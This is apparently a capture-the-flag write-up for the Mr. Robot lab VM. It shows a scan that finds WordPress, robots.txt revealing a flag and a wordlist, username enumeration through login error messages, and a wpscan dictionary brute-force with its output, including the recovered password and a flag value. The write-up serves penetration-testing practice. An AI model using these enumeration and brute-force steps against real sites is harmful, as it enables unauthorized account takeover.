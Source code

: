 ```
+ /blog/wp-login.php: WordPress login found
+ /wp-login.php: WordPress login found
+ 7535 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2016-09-07 15:54:00 (GMT-4) (160 seconds)
---------------------------------------------------------------------------
```

Looks like it was running WordPress. I downloaded the robots.txt to see if it was hiding anything of interest:

```
# curl http://172.16.146.134/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Found the first flag, and something called fsocity.dic.

```
# curl http://172.16.146.134/key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```

fsocity.dic was some kind of wordlist:

```
# head fsocity.dic 
true
false
wikia
from
the
now
Wikia
extensions
scss
window
.
.
.
```

Next I checked out http://172.16.146.134/blog/wp-login, which returned an unfinished WordPress blog. I ran wpscan on the site and found nothing that I could use to really exploit the site. Brute-forcing a login to the blog seemed to be the next course of action given that a wordlist had been conveniently provided. Being a Mr. Robot themed VM, I tried guessing various user names based off characters on the show, and seeing what error I'd get. I got a good hit on the user "elliot" when WordPress complained that the password was incorrect, rather than the user didn't exist. 

I used wpscan to perform the dictionary attack on the WordPress instance:

```
[+] Starting the password brute forcer
t  Brute Forcing 'elliot' Time: 00:20:45 <=========                                                                                                           > (74381 / 858161)  8.66%  ETA: 03:38:4t  Brute Forcing 'elliot' Time: 00:41:40 <===================                                                                                                > (151431 / 858161) 17.64%  ETA: 03:14:3t  Brute Forcing 'elliot' Time: 00:41:43 <===================                                                                                                > (151631 / 858161) 17.66%  ETA: 03:14:2  [+] [SUCCESS] Login : elliot Password : ER28-0652                                                                                                                                                  

  Brute Forcing 'elliot' Time: 03:50:21 <=================================================================================================================  > (858160 / 858161) 99.99%  ETA: 00:00:00
  +----+--------+------+-----------+
  | Id | Login  | Name | Password  |
  +----+--------+------+-----------+
```